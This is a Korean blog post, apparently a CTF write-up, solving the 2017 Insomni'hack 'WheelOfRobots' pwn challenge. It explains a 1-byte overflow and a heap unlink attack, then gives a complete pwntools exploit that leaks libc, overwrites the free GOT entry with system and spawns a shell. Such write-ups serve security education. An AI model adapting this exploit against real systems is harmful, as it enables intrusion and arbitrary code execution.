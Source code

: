```yaml
---
layout: post
title: "[2017 Insomni'hack] WheelOfRobots 풀이"
date: 2018-09-26 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### [WheelOfRobots](https://github.com/pwnwiz/CTF/raw/master/WheelOfRobots/WheelOfRobots) 

으어

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2017_Insomni'hack/WheelOfRobots/01.png)
{: refdef}

`func_add`

1. 로봇 선택 (이때 `1byte overflow` 발생)

2. `2`, `3`, `6` 일 경우 로봇의 특성 값 같은걸 입력

3. 로봇의 이름만큼 할당받고 그 안에 이름이 들어감

4. `robot_count` 증가<br /><br />

`func_delete`

1. 로봇 선택

2. `flag` 값이 존재하면 `free(robot_name)`, `robot_count` 감소<br /><br />

`func_change`

1. 로봇 선택

2. `flag` 값이 존재하면 해당 로봇의 이름만큼 `read`<br /><br />

`func_start`

1. `robot_count`가 2 초과인지 확인 아닐시 `return`

2. `sub_4015BD(6)`의 결괏값과 `robot_flag` 값을 가지고 특정 함수 실행 (별로 안 중요)

3. `exit(1)`<br /><br />

`robot_list`

{: refdef: style="text-align: center;"}
![robot_list](/img/2017_Insomni'hack/WheelOfRobots/02.png)
{: refdef}

이 문제는 `robot_name`, `robot_flag`, `robot_len`까지 다 `bss`에 저장돼 있어요.

- - -
# 0x01. 공격 방법

`func_add`의 **1**을 보면 `1byte overflow`가 발생하는데 해당 버퍼를 보면 `robot_2_flag`의 값을 바꿀 수 있어요.

그래서 `robot_2`를 가지고 `unsafe_unlink`를 사용할 거에요.

`robot_2`는 `fastbin`이라서 `fastbin_dup_consolidate`을 사용할 수 있어요.

1. `func_add(2)` input = `2`

2. `func_add(4)`

3. `func_delete(2)`

4. `func_add(5)` -> `fastbin_dup_consolidate`, `1byte overflow` -> `robot_2_flag = 1`

5. `func_change(2)`를 사용해 `fake_chunk`를 만듦

6. `func_delete(4)` -> `robot_2`의 `fake_chunk`에서 `unlink` 실행

7. `robot_2_name`의 주소가 `robot_2_name - 0x18`로 바뀜

8. `func_change(2)`로 `robot_2_name - 0x18`부터 `0x28`만큼 데이터를 바뀌서 `system("/bin/sh")` 실행

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = ""
PORT = 4444
#PORT =

s = remote(HOST, PORT)
pause()

elf = ELF("./WheelOfRobots")
libc = ELF("./libc.so.6")

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
free_got = elf.got["free"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

robot_4_name = 0x6030E0
robot_2_name = 0x6030F0
robot_2_flag = 0x603114

def func_add(index):
    s.recvuntil("Your choice : ")
    s.sendline("1")

    s.recvuntil("Your choice :")
    s.sendline(index)

def func_delete(index):
    s.recvuntil("Your choice : ")
    s.sendline("2")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

def func_change(index, content):
    s.recvuntil("Your choice : ")
    s.sendline("3")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

    s.recvuntil("Robot's name: ")
    s.send(content)

func_add(str(2))
s.sendline("2")
func_add(str(4))

func_delete(2)
func_add("5" + "\x00\x00\x00" + "\x01")

payload = p64(0x0)
payload += p64(0x20)
payload += p64(robot_2_name - 0x18)
payload += p64(robot_2_name - 0x10)
payload += p64(0x20)
func_change(2, payload)

func_delete(4)

payload = p64(0x0)*3
payload += p64(robot_4_name) # robot_2_name
func_change(2, payload)

payload = p64(free_got) # robot_4_name
payload += p64(puts_got) # robot_6_name
payload += p64(robot_2_flag) # robot_2_name
func_change(2, payload)

payload = p32(0x1)*3 # robot_2, 4, 6 flag
func_change(2, payload)

func_change(4, p64(puts_plt))
func_delete(6) # libc_leak
libc_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

libc_base = libc_puts - puts_off
libc_system = libc_base + system_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_puts : " + hex(libc_puts))
log.info("libc_system : " + hex(libc_system))
print

func_change(4, p64(libc_system))
func_change(2, "/bin/sh\0")
func_delete(2)

s.interactive()
```
